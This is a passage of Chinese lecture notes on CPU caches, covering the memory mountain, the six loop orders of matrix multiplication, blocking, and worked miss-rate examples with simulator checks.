沿着工作集大小的方向，曲面呈现出几道与大小轴垂直的山脊，这是时间局部性的体现：工作集不超过 32 KB 时整个数组都在 L1 中，吞吐量最高，步长为 1 时约 45～49 GB/s；64 KB～1 MB 落在 L2，步长为 1 时约 27～34 GB/s；4 MB～64 MB 落在 L3，步长为 1 时约 22～26 GB/s；128 MB 以上要访问主存，步长为 1 时约 6.5～6.8 GB/s，步长大时只有 2～3 GB/s。每两道山脊之间的“断崖”正好出现在对应缓存的容量附近：2 MB 恰好等于 L2 的容量，数组装不下全部（还有别的数据要占地方），吞吐量处在 L2 和 L3 之间。（L3 的“断崖”出现在 64 MB 与 128 MB 之间，远小于操作系统报告的 260 MB，这是因为默认环境是云服务器上的虚拟机，L3 由整颗芯片上的许多核心共享，这个程序实际能用到的只是其中一部分。）
沿着步长的方向，每道山脊都向步长增大的一侧倾斜，形成斜坡，这是空间局部性的体现：块大小 64 字节，能装 8 个 long；步长为 s（s ≤ 8）时，每读 8/s 个元素才换一个新块，每次访问的不命中率约为 s/8，步长越大不命中越多，吞吐量越低；步长达到 8 以后每次访问都落在新块上，不命中率为 1，斜坡应当变平。L1 山脊几乎是平的，因为数据全在 L1 中，不存在“换块”的代价。
图 10 存储器山的两条剖面（默认环境实测）：(a) 步长 8 时随工作集变化，可以看到四个区域；(b) 工作集 4 MB 时随步长变化，红色虚线是“不命中率 = min(s/8, 1)”的模型
图 10 是存储器山的两条剖面线，对应课件补充页 p.64 和 p.65–66。(a) 固定步长为 8，读吞吐量随工作集变化，L1、L2、L3、主存四个区域一目了然（课件 p.64 的“Cache Capacity Effects”）。(b) 固定工作集为 4 MB（在 L3 中），读吞吐量随步长变化，并画出了“不命中率 = min(s/8, 1)”的模型线（课件 p.65–66 的“Cache Block Size Effects”）：步长从 1 增加到 8，不命中率线性上升到 1，吞吐量迅速下降。按模型，步长超过 8 以后吞吐量应当不再变化，实测仍在缓慢下降，这是现代处理器的硬件预取（prefetching）造成的：预取器能识别出固定步长的访问模式，提前把后面的块取进来；步长越小、模式越规整，预取越有效，步长 1 的那一排因此特别高（图 9 中步长 1 的山脊在 L3 甚至主存区域都明显高出一截）。课件 p.37 的山上标注的“Aggressive prefetching”说的就是这个现象。
实测数据中还有一个有趣的细节：工作集为 64 KB、步长为 11、12 时，吞吐量突然回升到 L1 的水平。这是因为步长为 12 个 long（96 字节）时，程序只访问 64 KB / 96 B ≈ 680 个元素，每个元素各占一个不同的块，真正被用到的块只有约 680 个，而 L1 有 768 行——实际工作集是被访问的块的集合，而不是数组的大小，它已经小到能装进 L1 了。
课件 p.37 是教材图 6.41 的 Core i7 Haswell（2.1 GHz）的存储器山，最高约 14 GB/s；补充页 p.63 是 Core i5 Haswell，p.64 写着 Core i7 Haswell 3.1 GHz，p.65–66 写着 Core i7 Haswell 2.26 GHz，p.67 是 2008 年的 Core 2 Duo（没有 L3，山的形状简单得多）。这几页的数据来自不同年份、不同机器，机器的标注并不完全一致，看形状和规律即可。默认环境的 L1 山顶约为 Haswell 的 3 倍多，但山的形状——山脊、斜坡、预取造成的步长 1 高原——十年来没有变。
常见问题：存储器山能用来估算访问一次的时间吗？
可以粗略估算。读吞吐量的倒数就是平均每读 1 字节的时间；乘以 8 就是每读一个 long 的时间。例如默认环境中工作集 512 MB、步长 8 时吞吐量约 1.9 GB/s，每读一个 long 约 8 / 1.9 ≈ 4.2 ns，按 2.1 GHz 算约 9 个周期。这比访问一次主存的真实延迟（上百个周期）小得多，原因是处理器可以同时发出多个独立的读请求（4 个累加器的读互不依赖），预取器也在提前取块，许多次访存的延迟重叠在了一起。所以存储器山测的是吞吐量而不是延迟；要测延迟，需要让每次读的地址依赖上一次读的结果（第 12 讲 12.15 节的指针追逐实验）。教材练习 6.21 就是用存储器山估算 L1 命中时间的题目。
不装 C 编译器，也能在自己的电脑上测出一座存储器山：网页版模拟器“存储器实验”视图的“存储器山”子页，会把读吞吐量画成三维曲面、热力图和两条剖面。网页版测得的绝对数值一般低于 C 程序，但山脊的位置和斜坡的形状应当相同。桌面版 ICS 学习工作台（macOS）本机实验中的“存储器山”一项，会直接编译运行本节所用的 C 程序，其结果可以与讲义对照。Apple 芯片的缓存行是 128 字节，斜坡要到步长 16 附近才变平。
13.11 改变循环次序以利用空间局部性：矩阵乘法（课件 p.39–49）#
只改变循环的次序，为什么就能提速？课件用矩阵乘法来说明：p.39 用 n × n 的 double 矩阵乘法 C = A × B 作例子：cij = Σ_k aik bkj。标准写法是三重循环 ijk，最内层对 k 求和；总运算量是 O(n³)，每个源矩阵元素被读 n 次，每个目标元素是 n 个乘积的和。内层的累加变量 sum 放在寄存器中（课件旁注“Variable sum held in register”）。
/* ijk */
for (i = 0; i < n; i++)
for (j = 0; j < n; j++) {
sum = 0.0;
for (k = 0; k < n; k++)
sum += a[i][k] * b[k][j];
c[i][j] = sum;
}三重循环共有 3! = 6 种次序，它们做的乘加完全相同，结果相同，但访存模式不同。课件 p.40 规定了分析的前提：块大小 32 字节（能装 4 个 double）；n 很大，1/n 近似为 0；缓存小到连几行都装不下。分析方法是只看内层循环的访存模式（p.41 复习了行优先存放）：内层循环沿一行扫（步长 1）的矩阵，每 4 次访问换一个块，每次迭代 0.25 次不命中；沿一列扫（步长 n）的矩阵，每次访问都换一个块，每次迭代 1 次不命中；内层循环中位置固定不变的元素放在寄存器里，0 次不命中。把三个矩阵的数加起来，就是每次内层迭代的不命中次数。
按照上面的方法，课件 p.42–47 逐一分析了六种次序，p.48 把它们分成三组（表 6、图 11）。
表 6 矩阵乘法六种循环次序的内层循环分析（课件 p.42–48；块 32 字节，n 很大）
| 次序 | 内层循环语句 | A | B | C | 每次迭代不命中 | 读 | 写 |
|---|---|---|---|---|---|---|---|
| ijk、jik | sum += a[i][k] * b[k][j] | 按行 0.25 | 按列 1.0 | 固定 0 | 1.25 | 2 | 0 |
| kij、ikj | c[i][j] += r * b[k][j] | 固定 0 | 按行 0.25 | 按行 0.25 | 0.5 | 2 | 1 |
| jki、kji | c[i][j] += a[i][k] * r | 按列 1.0 | 固定 0 | 按列 1.0 | 2.0 | 2 | 1 |
图 11 三组循环次序的内层循环访问方向（课件 p.42–47）：红线是内层循环扫过的元素，红方块是固定在寄存器中的元素
先看 ijk 与 jik（课件 p.42–43）：内层循环固定 i、j，k 变化，沿 A 的第 i 行扫（按行），沿 B 的第 j 列扫（按列），C 的元素固定（最后写一次，不算在内层）。每次迭代 0.25 + 1.0 + 0 = 1.25 次不命中，2 次读、0 次写。两者的区别只在外层两重循环的次序，内层完全相同。kij 与 ikj（p.44–45）则不同，它们先取出 r = a[i][k] 放进寄存器，内层循环固定 i、k，j 变化，沿 B 的第 k 行和 C 的第 i 行同时扫。两个矩阵都按行访问，每次迭代 0 + 0.25 + 0.25 = 0.5 次不命中；代价是每次迭代多了一次写（c[i][j] 要读出、加上、写回）。最后的 jki 与 kji（p.46–47）先取出 r = b[k][j]，内层循环固定 j、k，i 变化，沿 A 的第 k 列和 C 的第 j 列扫。两个矩阵都按列访问，每次迭代 1.0 + 0 + 1.0 = 2.0 次不命中，是最差的一组。
这个模型是否可靠，可以用模拟器核对，其中的前提“缓存连几行都装不下”很关键。取 n = 160（每行 1280 字节 = 40 个块），缓存 1 KB、4 路、32 字节块（共 32 行，连一行都装不下），用模拟器统计每次内层迭代的不命中，结果与模型完全吻合：ijk、jik 为 A 0.250、B 1.000、C 0.006（C 每 n 次迭代访问一次，1/160 ≈ 0.006），合计 1.256；kij、ikj 为 0.506；jki、kji 为 2.006。换成一块接近真实 L1 的缓存（32 KB、8 路、32 字节块，n = 400）再统计，三组的排名不变，数值却变小了：ijk 为 1.062，kij 为 0.253，ikj 为 0.251，jki 为 2.002。原因是这块缓存能装下好几行（1024 行，而一行只有 100 个块），某个矩阵的一行在下一轮外层循环中还会被再次用到：例如 ijk 中 A 的第 i 行被 j 循环反复使用，如果它一直留在缓存里，A 的不命中就从 0.25 降到了 0.06。这说明 p.40 的模型给出的是“缓存很小”时的上界，真实缓存较大时数值会更好，但三组的相对快慢不变。
模型的预测在真实机器上也成立。课件 p.49 是 Core i7 上六种次序的实测，纵轴是每次内层迭代的周期数（对数刻度）：n 较小时差别不大，n 增大后清楚地分成三组，jki/kji 最慢、ijk/jik 居中、kij/ikj 最快且几乎不随 n 变化。图 12 是在默认环境上的同类实测（gcc 13 -O2 -fno-tree-vectorize，每个点取三次中最好的一次）。结果与课件的规律相同：n ≤ 250 时三个矩阵加起来不超过 2 MB，基本都在 L2 中，六种次序相差不到 2 倍；n 增大以后，kij/ikj 始终稳定在每次迭代约 0.5 ns，ijk/jik 慢慢升到约 0.8～1.1 ns，jki/kji 则从约 1 ns 一路升到 n = 1300 时的 11.7 ns，是 kij 的 20 多倍。n = 1000 处 jki/kji 有一次跳升，这时按列访问的步长达到约 8 KB，每个元素都在不同的页上，除了缓存不命中，还开始频繁地出现后面虚拟内存一讲中 TLB 的不命中。
图 12 六种循环次序的实测性能（默认环境，gcc 13 -O2 -fno-tree-vectorize；每次内层迭代的时间，对数刻度）
几条结论值得记住。第一，同样的运算量，访存模式可以让速度相差一个数量级，而改循环次序只是交换几行代码。第二，每次迭代的读写次数不是决定因素：kij 每次迭代比 ijk 多一次写，却快得多，因为写的是按行访问、早已在缓存中的数据。第三，内层循环中让所有矩阵都按行访问，是这类程序优化的第一原则——这就是课件 p.32 的“步长为 1 的访问模式是好的”。
网页版“存储器实验”的“矩阵乘法”子页，以及桌面版本机实验中的“矩阵乘法与分块”，都会测量每种次序每次内层迭代的时间，也都能比较不同的分块大小，所以六种次序的快慢可以在自己的电脑上验证。Apple M 系列芯片的缓存较大，n 要取到 700 以上，三组次序才会明显分开。
13.12 分块以利用时间局部性（课件 p.51–57）#
改变循环次序解决的是空间局部性：让内层循环按行访问，块中的数据都被用到。但还有一个问题没解决：矩阵很大时，一个元素被用过一次以后，要等很久才会再被用到，这时它早已被驱逐。分块（blocking）就是重新组织计算的顺序，让一个数据在被驱逐之前多用几次，从而利用时间局部性。
要说明分块的好处，先得算出不分块时的不命中次数。课件 p.51 换了一种写法（注意：这一组分析的块大小是 8 个 double = 64 字节，与 13.11 节的 4 个不同）：
/* 课件 p.51：c = a * b，a、b、c 都是 n x n 的 double 矩阵 */
void mmm(double *a, double *b, double *c, int n) {
int i, j, k;
for (i = 0; i < n; i++)
for (j = 0; j < n; j++)
for (k = 0; k < n; k++)
c[i*n + j] += a[i*n + k] * b[k*n + j];
}（课件中把下标写成 c[i][j]、a[i][k] 的形式，但参数是一维指针 double *，严格的 C 代码应写成 c[i*n + j]，或者把参数声明成 double c[][N]。这是 CMU 原课件为了可读性的简写，不是笔误。）
课件 p.52–53 的分析前提是：块 = 8 个 double，缓存大小 C 远小于 n（连一行都放不下）。计算 c 的一个元素（固定 i、j，k 从 0 到 n − 1）要读 a 的一整行和 b 的一整列：a 的一行按行访问，n 个元素占 n/8 个块，产生 n/8 次不命中；b 的一列按列访问，每个元素一个块，产生 n 次不命中。合计 n/8 + n = 9n/8 次不命中。计算完这个元素后，缓存里留下的是 a 的第 i 行的最后一部分和 b 第 j 列的最后几个块（p.52 的示意图）；因为缓存远小于 n，算下一个元素 c[i][j+1] 时，b 的第 j+1 列虽然与第 j 列共享块，但那些块早已被驱逐，于是又是 9n/8 次不命中（p.53）。c 共有 n² 个元素，总不命中次数约为 9n/8 × n² = (9/8)n³（c 本身的不命中只有 n²/8 次，与 n³ 相比可以忽略）。
那么分块是怎样写的呢？课件 p.54 把三个矩阵都看成由 B × B 的小块组成的“块矩阵”，把一次大矩阵乘法变成许多次 B × B 的小矩阵乘法：外面三重循环以 B 为步长枚举块的坐标 (i, j, k)，里面三重循环（i1、j1、k1）在一个块内做普通的矩阵乘法，把 a 的块 (i, k) 乘以 b 的块 (k, j)，累加到 c 的块 (i, j) 上（图 13）。
c = (double *) calloc(sizeof(double), n*n);
/* 分块矩阵乘法（课件 p.54）：假设 n 是 B 的倍数 */
void mmm(double *a, double *b, double *c, int n) {
int i, j, k, i1, j1, k1;
for (i = 0; i < n; i += B)
for (j = 0; j < n; j += B)
for (k = 0; k < n; k += B)
/* B x B 小矩阵乘法 */
for (i1 = i; i1 < i+B; i1++)
for (j1 = j; j1 < j+B; j1++)
for (k1 = k; k1 < k+B; k1++)
c[i1*n + j1] += a[i1*n + k1] * b[k1*n + j1];
}（课件中 i1、j1、k1 没有声明，下标同样写成二维形式；calloc(sizeof(double), n*n) 的两个参数顺序与 calloc(nmemb, size) 的原型相反，但乘积相同，结果没有区别。这些都不算笔误，上面的代码已按严格的 C 写法补全。c 必须先清零，因为分块版本是对 c 累加。）
图 13 分块矩阵乘法（课件 p.54–56）：c 的一个 B × B 块，由 a 的第 i 行块条与 b 的第 j 列块条中的 n/B 对小块相乘累加得到
分块后的不命中次数要在新的前提下重新计算。课件 p.55–56 的分析前提是：块 = 8 个 double，缓存大小 C 远小于 n，但三个 B × B 的小块能同时放进缓存：3B² < C（这里 C 以 double 为单位计）。计算 c 的一个块 (i, j)，要依次用到 a 的第 i 行块条中的 n/B 个块和 b 的第 j 列块条中的 n/B 个块。每个 B × B 小块有 B² 个元素，每行 B 个元素占 B/8 个缓存块，整个小块共 B²/8 个缓存块；由于三个小块放得下，一个小块装入以后在这次小矩阵乘法中被反复使用（每个元素用 B 次），只在装入时产生 B²/8 次不命中。于是计算 c 的一个块，a、b 各要装入 n/B 个小块，共 2 × (n/B) × (B²/8) = nB/4 次不命中（忽略 c 本身）。c 共有 (n/B)² 个块，总不命中次数约为 nB/4 × (n/B)² = n³/(4B)。
两者相比（课件 p.57）：不分块 (9/8)n³，分块 n³/(4B)，比值为 (9/8) / (1/(4B)) = 4.5B。B 取得越大，不命中越少，但必须满足 3B² < C。所以课件的建议是：在 3B² < C 的限制下，取尽可能大的 B。分块之所以有如此显著的效果，是因为矩阵乘法本身有很强的时间局部性：输入数据只有 3n² 个元素，计算量却是 2n³ 次运算，每个元素平均被用到 O(n) 次。问题只在于程序要把这些重用安排在数据还在缓存里的时候——这需要程序员“正确地写”。
同样可以用模拟器核对这两个公式。取 n = 240，缓存 8 KB（1024 个 double）、块 64 字节。全相联 LRU 缓存下，不分块的 ijk 共 15 609 600 次不命中，(9/8)n³ = 15 552 000，相差不到 0.4%；分块 B = 8 时 439 200 次，n³/(4B) = 432 000；B = 16 时 223 200 次，n³/(4B) = 216 000。模型与模拟吻合得很好，B = 16 比不分块少了约 70 倍（4.5B = 72）。B 继续增大：B = 24 时 3B² = 1728 已经超过 1024，但不命中仍为 216 000，因为 3B² < C 是一个保守的充分条件（小矩阵乘法中 b 的小块要一直留着，a、c 每次只需要一行）；B = 40 时 b 的一个小块就有 1600 个 double，比整个缓存还大，不命中暴涨到 1 814 400 次，分块失效。改用 8 路组相联（16 组）的同样容量的缓存，结果相近（B = 16 时 233 370 次），多出的部分是冲突不命中。
在真实机器上，分块的效果取决于矩阵能否留在某一级缓存中。表 7 是在默认环境上的计时（gcc 13 -O2 -fno-tree-vectorize）。n = 1152 时三个矩阵共约 32 MB，都能留在 L3 中，不命中的代价不大，分块只比 ijk 快约 1.5 倍；n = 2304 时三个矩阵共约 127 MB，超出了这台虚拟机实际可用的 L3（见 13.10 节），ijk 的列访问每次都要去主存，每次迭代 5.6 ns，分块（B = 32）降到 1.3 ns，快了 4 倍多。块太小（B = 4）时重用次数少、循环开销大；块太大（B = 576）时小块装不进 L1、L2，效果都变差，最好的 B 在 16～64 之间。
表 7 分块与不分块的实测（默认环境，每次内层迭代的时间，ns）
| n | ijk | kij | 分块 B = 8 | B = 16 | B = 32 | B = 64 |
|---|---|---|---|---|---|---|
| 1152（约 32 MB） | 1.65 | 0.51 | 1.25 | 1.13 | 1.12 | 1.21 |
| 2304（约 127 MB） | 5.56 | 0.59 | — | 1.41 | 1.29 | 1.36 |
表中还有一个值得注意的现象：简单地把次序换成 kij，在这台机器上比分块的 ijk 还要快。这并不说明分块无用：kij 的两个矩阵都按行访问，硬件预取器能完美地预测它的访问模式，现代处理器巨大的缓存和预取在很大程度上掩盖了不命中的代价；而课件这个分块版本的最内层循环仍沿 b 的列走、并且每次迭代都要读写 c。在缓存更小、或者没有这么强的预取的机器上（以及 GPU、嵌入式处理器上），分块的收益要大得多；真正的高性能矩阵库（如 BLAS）是把分块与合适的循环次序、向量化结合起来使用的。考试与做题时按课件的模型分析即可：不分块 (9/8)n³，分块 n³/(4B)，条件 3B² < C。
常见问题：Cache Lab 的矩阵转置也要分块，这里的分析能直接套用吗？
道理相同，细节不同。转置 B = Aᵀ 没有矩阵乘法那样的 O(n) 次重用：每个元素只读一次、写一次，分块的目的不是让一个元素被多次使用，而是让同一个缓存块里的相邻元素在被驱逐之前都被用到——读 A 时按行（一个块里的 8 个 int 连着读），写 B 时按列，分块使“写 B 的那些列”对应的缓存块在一小块范围内被反复写满。此外，直接映射的小缓存中 A 和 B 的对角线小块往往映射到相同的组，会产生大量冲突不命中，这是转置特有的问题。具体的块大小和对角线处理是 Lab 的内容，讲义不展开；13.13 节例 1 的“数组之间的冲突”和例 2 的“按行与按列”就是分析它所需要的全部工具。
13.13 讲义专题：给定代码与缓存参数，算不命中率#
研讨题、作业和考试中最常见的一类缓存题目是：给出一段访问数组的 C 代码、数组的起始地址和一块缓存的参数，问每次访问是命中还是不命中、不命中属于哪一类、不命中率是多少，有时还问“改成怎样就能减少不命中”。这类题看起来要逐次模拟很多步，其实只要按固定的步骤做，绝大部分工作是找规律。本节先给出步骤，再用三个新编的例子演示。三个例子覆盖了三种典型现象：两个以上数组之间的冲突、二维数组的访问次序、结构体只用到一部分字段。所有逐次结果都用模拟器（组相联、LRU、写回 + 写分配，不命中类型按 13.1 节的方法判别）核对过。
★ 算不命中率的五个步骤
做这类题，第一步是算出缓存参数：由 C、B、E 求出 S = C / (E × B)，再写出地址的划分——b = log₂B 位块偏移、s = log₂S 位组索引，其余是标记。题目只关心组号时，可以直接用“块号 = ⌊地址 / B⌋，组号 = 块号 mod S”计算，不必写出二进制。
第二步，按数组的起始地址和元素大小（以及二维数组的行优先存放）算出每个元素的地址、块号和组号。一个块能装 B / 元素大小 个元素，同一个块中的元素块号相同。
有了组号，第三步就按程序的访问顺序逐次模拟，或者先找出规律。这里要特别注意，读和写都要算访问（写不命中时按题目给的写策略处理，通常是写分配），同一条语句中的多个访问按求值顺序排列。模拟的同时完成第四步，区分三类不命中：第一次访问某块是冷不命中；否则看同容量的全相联缓存是否也会不命中，会就是容量不命中，不会就是冲突不命中。
最后一步是汇总，不命中率 = 不命中次数 / 总访问次数。答题时最好写出规律（例如“每 4 次访问中第 1 次不命中”），而不是只给一个数。
例 1：三个数组之间的冲突#
int a[8], b[8], c[8]; /* sizeof(int) = 4，三个数组依次连续存放，a 从地址 0 开始 */
for (int i = 0; i < 8; i++)
c[i] = a[i] + b[i]; /* 每轮依次访问 a[i]（读）、b[i]（读）、c[i]（写） */缓存为直接映射，容量 64 字节，块大小 16 字节，写回 + 写分配，开始时为空。
按第一步，先算缓存参数：B = 16，b = 4；S = 64 / (1 × 16) = 4，s = 2。一个块装 4 个 int。
接着算每个元素的块号和组号：a 占地址 0～31，块号 0、1，组号 0、1；b 占 32～63，块号 2、3，组号 2、3；c 占 64～95，块号 4、5，组号 0、1。也就是说，a[0..3] 和 c[0..3] 都在组 0，a[4..7] 和 c[4..7] 都在组 1，b 独占组 2、3。
有了组号，就可以逐次模拟并区分不命中的类型，结果见 表 8。i = 0 时三次都是冷不命中，c[0] 的写不命中按写分配把块 c[0..3] 装入组 0，驱逐了 a[0..3]。i = 1 时读 a[1]，a[0..3] 刚被驱逐，冲突不命中，装回来又把 c[0..3] 赶走；b[1] 命中；写 c[1] 又是冲突不命中。此后每一轮都是这样：a 和 c 在同一组里来回驱逐，b 每块只在第一次访问时不命中。
表 8 例 1 的逐次结果（直接映射，4 组 × 16 字节；数组连续存放）
| i | a[i]（读） | b[i]（读） | c[i]（写） |
|---|---|---|---|
| 0 | 组 0，冷不命中 | 组 2，冷不命中 | 组 0，冷不命中（驱逐 a 块） |
| 1、2、3 | 组 0，冲突不命中 | 组 2，命中 | 组 0，冲突不命中 |
| 4 | 组 1，冷不命中 | 组 3，冷不命中 | 组 1，冷不命中（驱逐 a 块） |
| 5、6、7 | 组 1，冲突不命中 | 组 3，命中 | 组 1，冲突不命中 |
最后汇总：24 次访问中有 18 次不命中（6 次冷、12 次冲突），不命中率 75%。缓存总共 64 字节，而每一轮同时用到的只有 3 个块（48 字节），容量完全够用，12 次冲突不命中都是“放错了位置”造成的。
怎样改进？表 9 列出了几种做法的模拟结果，每一种都值得体会。
表 9 例 1 的几种变化（总容量都是 64 字节，块 16 字节；模拟器结果）
| 做法 | 不命中 / 访问 | 不命中率 | 原因 |
|---|---|---|---|
| 原样（数组连续，直接映射） | 18 / 24 | 75% | a 与 c 同组，互相驱逐 |
| 改为 2 路组相联（2 组 × 2 行） | 24 / 24 | 100% | 组数减半后 a、b、c 的块都落在同一组，3 个块争 2 行，LRU 下每次都驱逐下一步要用的块 |
| 改为 4 路（全相联，1 组 × 4 行） | 6 / 24 | 25% | 3 个块同时放得下，只剩冷不命中 |
| 直接映射，每个数组后面加 16 字节填充（a 从 0、b 从 48、c 从 96 开始） | 6 / 24 | 25% | a、b、c 的同号块依次落在组 0、3、2（以及组 1、0、3），不再冲突 |
| 直接映射，数组起始地址相差 64 字节（0、64、128） | 24 / 24 | 100% | 三个数组的起始地址相差缓存大小的整数倍，同号元素全在同一组 |
第二行最出人意料：容量不变，相联度从 1 提高到 2，不命中反而更多了。原因是组数从 4 减为 2，原来 b 独占的组 2、3 没有了，三个数组的块挤进同一组；而 LRU 遇到“循环访问 3 个块、只有 2 行”的模式，每次驱逐的恰好是下一步要用的块。这说明“提高相联度能减少冲突”是平均意义上的结论，不是对每段程序都成立。最后一行则是课件 p.8 那种“0、8、0、8……”冲突的放大版：几个数组的起始地址相差缓存大小的整数倍时，按相同下标访问会一直冲突。实际编程中，数组大小恰好是 2 的大幂次时最容易出现这种情况，常见的对策就是第四行的填充（padding）。
例 2：二维数组按行与按列访问#
int a[8][8]; /* 从地址 0 开始，行优先存放，每行 32 字节 */
int sum = 0;
for (int i = 0; i < 8; i++) /* 按行：内层循环 j，步长 1 */
for (int j = 0; j < 8; j++)
sum += a[i][j];
for (int j = 0; j < 8; j++) /* 按列：内层循环 i，步长 8 个元素 */
for (int i = 0; i < 8; i++)
sum += a[i][j];缓存为直接映射，容量 64 字节，块大小 16 字节（4 组），每段循环开始前缓存为空；sum 在寄存器中。
a[i][j] 的地址是 4 × (8i + j)，块号是 ⌊(8i + j) / 4⌋ = 2i + ⌊j / 4⌋，组号是块号 mod 4。所以第 i 行的前 4 个元素在块 2i、后 4 个元素在块 2i + 1；偶数行的两个块落在组 0、1，奇数行的两个块落在组 2、3。
按行访问时，每个块的 4 个元素被连续访问，第一个不命中，后三个命中；共 16 个块，64 次访问中 16 次不命中，全是冷不命中，不命中率 25%。这就是第 12 讲说的“步长为 1、每块 k 个元素时不命中率为 1/k”。
按列访问的情况则完全不同：内层循环依次访问 a[0][j]、a[1][j]、……、a[7][j]，涉及 8 个不同的块（块 0、2、4、……、14，或者 1、3、……、15），而缓存只有 4 行。第一列 j = 0 的 8 次访问全是冷不命中，并且块 0、4、8、12 争组 0，块 2、6、10、14 争组 2，后来的不断驱逐先来的。到 j = 1 时，a[0][1] 所在的块 0 早已被驱逐，又不命中——此后每次访问都不命中，64 次访问 64 次不命中，不命中率 100%。其中 16 次是冷不命中，其余 48 次属于哪一类？同容量（4 行）的全相联缓存装不下一列的 8 个块，同样每次都不命中，所以这 48 次是容量不命中。
把缓存的大小作为变量，按列访问的结果更能说明三类不命中的区别（表 10）：缓存增大到 128 字节（8 组），全相联缓存已经能装下一列的 8 个块，但直接映射时这 8 个块只落在 4 个组（组号 2i mod 8 只能是偶数），仍然每次都不命中，这时的 48 次就变成了冲突不命中；缓存增大到 256 字节，整个数组都装得下，只剩 16 次冷不命中。
表 10 例 2 按列访问在不同缓存下的结果（块 16 字节；模拟器结果）
| 缓存 | 不命中 / 访问 | 不命中率 | 不命中的类型 |
|---|---|---|---|
| 64 字节，直接映射（4 组） | 64 / 64 | 100% | 冷 16，容量 48 |
| 64 字节，全相联（4 行） | 64 / 64 | 100% | 冷 16，容量 48 |
| 128 字节，直接映射（8 组） | 64 / 64 | 100% | 冷 16，冲突 48 |
| 256 字节，直接映射（16 组） | 16 / 64 | 25% | 冷 16 |
| 按行访问，64 字节直接映射 | 16 / 64 | 25% | 冷 16 |
结论有两条。第一，按行访问在最小的缓存上也能达到 25%，按列访问则要等缓存大到能装下整个数组才能达到同样的水平——改循环次序几乎总比加大缓存划算。第二，同样是 100%，不命中的原因可以不同：容量不足时提高相联度没用，只有冲突时提高相联度或加填充才有用。
例 3：结构体数组只用到一部分字段#
struct point { int x, y, z, w; }; /* 16 字节 */
struct point pt[32]; /* 从地址 0 开始，共 512 字节 */
/* (a) 只累加 x */
for (int i = 0; i < 32; i++) sx += pt[i].x;
/* (b) 同一个循环里累加 x 和 y */
for (int i = 0; i < 32; i++) { sx += pt[i].x; sy += pt[i].y; }
/* (c) 先用一个循环累加 x，再用另一个循环累加 y */
for (int i = 0; i < 32; i++) sx += pt[i].x;
for (int i = 0; i < 32; i++) sy += pt[i].y;缓存为直接映射，容量 256 字节，块大小 16 字节（16 组），每段代码开始前缓存为空；sx、sy 在寄存器中。
每个结构体恰好占一个块，pt[i] 在块 i。(a) 每次访问 pt[i].x 都落在一个新块上，32 次访问全部是冷不命中，不命中率 100%。虽然访问是按地址递增的顺序进行的，但步长是 16 字节，等于块大小，每个块只用到 4 个字节，其余 12 个字节白白搬了上来。(b) 访问 pt[i].x 时不命中、把整个块装入，紧接着访问 pt[i].y 命中，64 次访问 32 次不命中，不命中率 50%；同样的 32 次不命中，换来了两倍的有用数据。(c) 第一个循环 32 次冷不命中；第二个循环开始时，缓存中只剩最后 16 个块（数组 512 字节，缓存只有 256 字节），pt[0]～pt[15] 早已被 pt[16]～pt[31] 驱逐，于是又是 32 次不命中，这次是容量不命中，合计 64 次访问 64 次不命中，100%。
如果程序主要按字段访问，可以把“结构体的数组”改成“数组的结构体”：int xs[32], ys[32], zs[32], ws[32]。此时 (a) 只访问 xs，每块装 4 个 x，32 次访问 8 次不命中，25%；(c) 两个循环各 8 次不命中，16 / 64 = 25%。这种改写在图形学、科学计算中很常见（教材练习 6.18–6.20 就是这一类题），它与改循环次序的道理相同：让块中被搬上来的每一个字节都被用到。
⚠ 做这类题最容易出错的地方
第一，写也是访问：例 1 中 c[i] = … 的写操作要计入访问次数；写分配时写不命中会把块装入缓存，从而驱逐别的块。第二，同一条语句的多次访问要按顺序排：a[i] + b[i] 先读 a[i] 再读 b[i]，顺序不同，驱逐的结果可能不同。第三，“地址递增”不等于“空间局部性好”：例 3(a) 的地址是递增的，但步长等于块大小，不命中率仍是 100%。第四，相联度不是越高越好：例 1 中容量不变、改成 2 路，不命中率从 75% 升到 100%。第五，题目说的“缓存开始时为空”要看清楚是对整段程序还是对每个循环。
做完这类题，可以用网页版的“缓存可视化”核对答案。它的“数组生成器”能按一维或二维、按行或按列、两三个数组交替的方式生成访问序列。本节例 1～3 的各种变体（填充、改为组相联、数组的结构体）都内置为例子，可以逐次对照每次访问的组号和不命中类别。
13.14 本讲小结（课件 p.58）#
表 11 第 13 讲小结
| 主题 | 要点 |
|---|---|
| 组织 | (S, E, B, m)：S 组 × E 行 × B 字节；C = S × E × B；地址 = t 位标记 | s 位组索引 | b 位块偏移，t = m − s − b |
| 查找 | 选组（中间 s 位）→ 组内比较有效位与标记 → 按块偏移取数据；不命中时取块、必要时按 LRU 等策略替换 |
| 三种组织 | 直接映射（E = 1）便宜但冲突多；E 路组相联是折中；全相联（S = 1）无冲突但只适合很小的缓存 |
| 2 的幂 | B、S 取 2 的幂是为了“取地址位”就能选组、定偏移；E 可以任意（48 KB = 64 × 12 × 64）；大 L3 用哈希选切片 |
| 写 | 直写 / 写回（脏位）；写分配 / 非写分配；常见组合是写回 + 写分配 |
| 中间位索引 | 让连续的块分散到不同的组，顺序访问不冲突 |
| 性能指标 | 不命中率、命中时间、不命中处罚；平均访问时间 = 命中时间 + 不命中率 × 不命中处罚；97% 与 99% 命中率相差一倍 |
| 存储器山 | 工作集大小决定落在哪一级（时间局部性的山脊），步长决定每块用到多少（空间局部性的斜坡） |
| 循环次序 | 矩阵乘法按内层循环的访问模式分三类，每次迭代不命中 0.5（kij/ikj）、1.25（ijk/jik）、2.0（jki/kji） |
| 分块 | 不分块约 (9/8)n³ 次不命中，分块约 n³/(4B) 次；条件是三个 B × B 小块放得进缓存 |
| 做题 | 五步：参数 → 地址、块号、组号 → 逐次模拟或找规律 → 分三类 → 汇总 |
课件 p.58 把全讲归结为三句话：缓存对性能的影响很大；程序员可以写出利用缓存的程序；做法是关注内层循环、尽量用步长为 1 的访问提高空间局部性、一个数据读进来以后尽量多用几次以提高时间局部性。下一讲（第 14 讲，程序优化）会从另一个角度继续讨论“怎样让程序更快”：除了存储系统，还要考虑编译器能做什么、不能做什么，以及处理器的指令级并行。存储器山测试函数中的“4×4 循环展开”，正是第 14 讲的内容。
第二部分 小班研讨题解答（第 13 讲）#
研讨题沿用 2025 版课件的页码（换算规则见“如何使用本讲义”后的说明框）；下面每道题的题目照录原文，题目后的括号中注明对应的 2026 版页码。第一部分已经完整讲过的图、表和推导，这里给出要点并注明所在小节；题目要求“再设计一个访问序列”的部分，讲义给出新设计的序列，并用模拟器逐次核对。
研讨题 1：高速缓存结构#
1（1）基于课件第 2～8 页，简要回顾之前的学习内容。（2026 版 p.2–8）
